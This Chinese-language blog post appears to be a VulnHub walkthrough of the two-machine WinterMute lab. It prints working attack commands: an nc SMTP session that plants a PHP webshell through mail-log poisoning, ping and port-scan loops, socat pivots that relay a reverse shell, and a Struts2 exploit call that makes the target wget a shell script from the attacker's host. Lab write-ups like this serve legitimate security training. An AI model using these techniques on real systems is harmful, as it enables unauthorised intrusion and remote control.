 +++
title = '0x063 WinterMute '
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台靶场是个双主机靶场

# 第一台主机

192.168.5.104

## 端口扫描

![](/vulnhub_img/WEBRESOURCE68c362deba429ae69fed45d9517b9ca8image.png)

![](/vulnhub_img/WEBRESOURCEa844d08924c6c9dadd2bb5ffc0ee911dimage.png)

![](/vulnhub_img/WEBRESOURCEdf5d149940645e9df81a43506f469ab1image.png)

## 渗透

80端口

![](/vulnhub_img/WEBRESOURCE060cc8d1dc9a6d9c316b2b25b1a11c95image.png)

![](/vulnhub_img/WEBRESOURCEc2c79a3c50e937e7793df04a89cd245cimage.png)

3000端口

admin/admin直接进入：

![](/vulnhub_img/WEBRESOURCE1e24b0dee6fe4c2b9da1c19f677f1f03image.png)

然后这里是我没想到的，这里是http的路径：

![](/vulnhub_img/WEBRESOURCEa2e96b80478f41f60c93808700481a0fimage.png)

打开：

![](/vulnhub_img/WEBRESOURCE53f87dad94e3a0ef6f07caad760c742eimage.png)

最开始没看懂什么意思，原来这里的意思是，选择一个人查看他的日志，但是这里看不了/etc/passwd，由于主机开放了25端口，可以看/var/log/mail的日志，就可以用25端口发邮件了：

![](/vulnhub_img/WEBRESOURCE2fec6124137d88692b38ab00d84133b0image.png)

使用NC写入webshell：

```
nc 192.168.5.108 25 			#连接邮件服务器
helo root						#标识用户身份
mail from:"ROOT <?php system($_GET['a']);?>"   #发件人，木马所在地
rcpt to:root					#收件人
data							#编辑
.							    #编辑结束
quit							#退出nc
```

这里的木马有些问题，建议使用get请求，并且id什么的是执行不了的，ls是可以的，传参用&：

![](/vulnhub_img/WEBRESOURCE2fa3b558d7bc141d559d5402c4cfcfc2image.png)

反弹shell:

![](/vulnhub_img/WEBRESOURCE963c068bf535ff76fc31b0879b987ce6image.png)

![](/vulnhub_img/WEBRESOURCE80b38633a18415990dacc18a3e179170image.png)

# 提权

SUID：

![](/vulnhub_img/WEBRESOURCE0427285f16c161ce1c6233b0adf8c7feimage.png)

![](/vulnhub_img/WEBRESOURCEfc75302ecb7e9d34e40eb6105bab0402image.png)

![](/vulnhub_img/WEBRESOURCEbfa6c620f5853a3cc13a7aab78f58b7dimage.png)

![](/vulnhub_img/WEBRESOURCE508789be6ddfaa4e7751c8ea01b07641image.png)

![](/vulnhub_img/WEBRESOURCEad6ded3d3605a4497411630063683c9eimage.png)

# 第二台靶机

第二网卡：

192.168.56.103/24网段：

![](/vulnhub_img/WEBRESOURCE44bde5ae34bf24033969f2e96d8dfeccimage.png)

本来想创建创建远程端口转发的，但是ssh版本不够：

sudo systemctl restart ssh.service

ssh -N -R 9998 [kali@192.168.5.66](http://kali@192.168.5.66)

需要ssh版本7.6以及以上：

![](/vulnhub_img/WEBRESOURCE506cf098d91af47c35f65e9fcc2a26eeimage.png)

那就挨个代理出来：

先进行IP扫描：

```
NET=192.168.56. ; for IP in $(seq 1 255); do if `ping -c2 -i0.2 -w2 $NET$IP &> /dev/null`; then echo -e "$NET$IP is \033[31mup\033[0m" ; else echo -e "$NET$IP is \033[32mdown\033[0m";  fi ; done
```

![](/vulnhub_img/WEBRESOURCE2ee8dba66e84ede94794aba403c6eecaimage.png)

102可能性最大，端口扫描：

```
for i in $(seq 1 65535); do nc -nvz -w 1 192.168.56.102 $i 2>&1; done | grep -v "Connection refused"
```

![](/vulnhub_img/WEBRESOURCE15703d7835e6c9fbcff64f91ee55de0aimage.png)

用socat把端口代理出来：

![](/vulnhub_img/WEBRESOURCEa157d5dbcba06da73ac7134a2147d73cimage.png)

```
socat TCP-LISTEN:8009,fork,reuseaddr tcp:192.168.56.102:8009 &
socat TCP-LISTEN:8080,fork,reuseaddr tcp:192.168.56.102:8080 &
socat TCP-LISTEN:34483,fork,reuseaddr tcp:192.168.56.102:34483 &
```

![](/vulnhub_img/WEBRESOURCE017206957e78a558751f5f69e2eb56b2image.png)

重新扫描一下：

![](/vulnhub_img/WEBRESOURCE93398a132faf925a6b1a936045ffdaf6image.png)

打一半网断了，后面IP变了：

![](/vulnhub_img/WEBRESOURCE4f998a09b6efff34f2764a1fd72a1993image.png)

![](/vulnhub_img/WEBRESOURCE1cd5b6ce008108bc3a7c9ad77d08ba17image.png)

这里没注意，原来note是提示：

![](/vulnhub_img/WEBRESOURCEf03bc91d1e561d041b06bea5fe21e6b5image.png)

这个就显而易见了，struts2漏洞：

![](/vulnhub_img/WEBRESOURCE8c32ffbcd5282a46b31ec7c971c743beimage.png)

先创建一个端口转发，以便于把shell传回kali:

```
socat TCP-LISTEN:9999,fork,reuseaddr tcp:192.168.5.66:9999 &
```

去exploit-db找一个脚本：

![](/vulnhub_img/WEBRESOURCEa9269de1cceb517cc694086d5d0af425image.png)

但是这里没反应，感觉是哪里有问题，既然nc和bash没反应，可以试试写入sh脚本：

![](/vulnhub_img/WEBRESOURCE273eb9f5ca755c7151db7a2a5fec477fimage.png)

再建一个端口转发：

```
socat TCP-LISTEN:7777,fork,reuseaddr tcp:192.168.5.66:80 &
```

python 42324.py [http://192.168.5.111:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action](http://192.168.5.111:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action) "wget [http://192.168.56.103:7777/shell.sh](http://192.168.56.103:7777/shell.sh)"

有反应

![](/vulnhub_img/WEBRESOURCE036f4cd67d3bcbc5a131d85024dc1fe0image.png)

又失败了，放到tmp目录试试：

![](/vulnhub_img/WEBRESOURCEed6004a575fbf4af8ca164949627dea5image.png)

msfvenom:

![](/vulnhub_img/WEBRESOURCE503cf14f6615ad9193e16cd7628c8478image.png)

# 提权

2021-4034

![](/vulnhub_img/WEBRESOURCE27e469b9c5e01820fb797dda5c4202b0image.png)